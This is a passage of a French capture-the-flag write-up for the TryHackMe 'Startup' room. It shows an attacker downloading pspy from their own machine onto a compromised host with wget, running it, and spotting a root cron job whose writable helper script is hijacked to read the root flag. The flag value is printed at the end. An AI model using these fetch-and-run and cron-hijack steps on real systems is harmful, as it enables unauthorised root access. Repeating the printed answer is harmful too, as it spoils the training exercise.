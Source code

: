 On a un répertoire script avec script planner qui a les droits root.     
A l'intérieur du script on voit un fichier print.sh qui est exécuté.   
Ce fichier peut être modifié.   
On le modifie pour qu'il récupère le flag \/root\/root.txt    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64 -nv
2021-08-06 19:30:03 URL:https://github-releases.githubusercontent.com/120821432/d54f2200-c51c-11e9-8d82-f178cd27b2cb?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20210806%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20210806T172936Z&X-Amz-Expires=300&X-Amz-Signature=899760e2dc06c4a35c280de5be39015cddd886b86453f435d35d84e708444610&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=120821432&response-content-disposition=attachment%3B%20filename%3Dpspy64&response-content-type=application%2Foctet-stream [3078592/3078592] -> "pspy64" [1]

tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

lennie@startup:~$ wget http://10.9.228.66:8000/pspy64 -nv
wget http://10.9.228.66:8000/pspy64 -nv
2021-08-06 17:33:21 URL:http://10.9.228.66:8000/pspy64 [3078592/3078592] -> "pspy64" [1]

lennie@startup:~$ chmod +x pspy64
chmod +x pspy64
./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
2021/08/06 17:39:06 CMD: UID=0    PID=3472   | pidof 
2021/08/06 17:40:01 CMD: UID=0    PID=3476   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/06 17:40:01 CMD: UID=0    PID=3475   | /bin/sh -c /home/lennie/scripts/planner.sh 
2021/08/06 17:40:01 CMD: UID=0    PID=3474   | /usr/sbin/CRON -f 
2021/08/06 17:41:01 CMD: UID=0    PID=3481   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/06 17:41:01 CMD: UID=0    PID=3480   | /bin/sh -c /home/lennie/scripts/planner.sh 
2021/08/06 17:41:01 CMD: UID=0    PID=3479   | /usr/sbin/CRON -f 
2021/08/06 17:42:01 CMD: UID=0    PID=3486   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/06 17:42:01 CMD: UID=0    PID=3485   | /bin/sh -c /home/lennie/scripts/planner.sh 
2021/08/06 17:42:01 CMD: UID=0    PID=3484   | /usr/sbin/CRON -f 
2021/08/06 17:43:01 CMD: UID=0    PID=3491   | /bin/bash /home/lennie/scripts/planner.sh 
2021/08/06 17:43:01 CMD: UID=0    PID=3490   | /bin/sh -c /home/lennie/scripts/planner.sh 
2021/08/06 17:43:01 CMD: UID=0    PID=3489   | /usr/sbin/CRON -f 

```

Avec pspy on voit que planner.sh est exécuter toute les minutes avec les droits root.   

La réponse est : THM{f963aaa6a430f210222158ae15c3d76d}      